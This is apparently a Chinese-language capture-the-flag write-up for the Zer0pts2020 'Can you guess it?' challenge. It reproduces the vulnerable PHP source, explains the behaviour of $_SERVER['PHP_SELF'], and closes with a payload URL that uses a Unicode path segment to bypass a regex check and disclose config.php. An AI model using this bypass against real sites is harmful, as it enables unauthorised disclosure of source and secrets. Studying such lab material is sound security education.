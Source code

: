 # Zer0pts2020

## Can you guess it?

给了源码
```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

发现``hash_equals``绕不过去，只能想办法从别的地方入手

问题出在``$_SERVER['PHP_SELF']``

>$_SERVER['PHP_SELF'] 表示当前 php 文件相对于网站根目录的位置地址，与 document root 相关。
>
>假设我们有如下网址，$_SERVER['PHP_SELF']得到的结果分别为：
>
>http://ctf.ieki.xyz/php/ ：/php/index.php
>http://ctf.ieki.xyz/php/index.php ：/php/index.php
>http://ctf.ieki.xyz/php/index.php?test=foo ：/php/index.php
>http://ctf.ieki.xyz/php/index.php/test/foo ：/php/index.php/test/foo
>
>```php
>$url = "http://".$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF'];
>```


用Unicode可以绕过

payload

```
http://2086784a-a065-458e-8566-2d1a200b1f41.node3.buuoj.cn/index.php/config.php/%E5%95%A5?source
```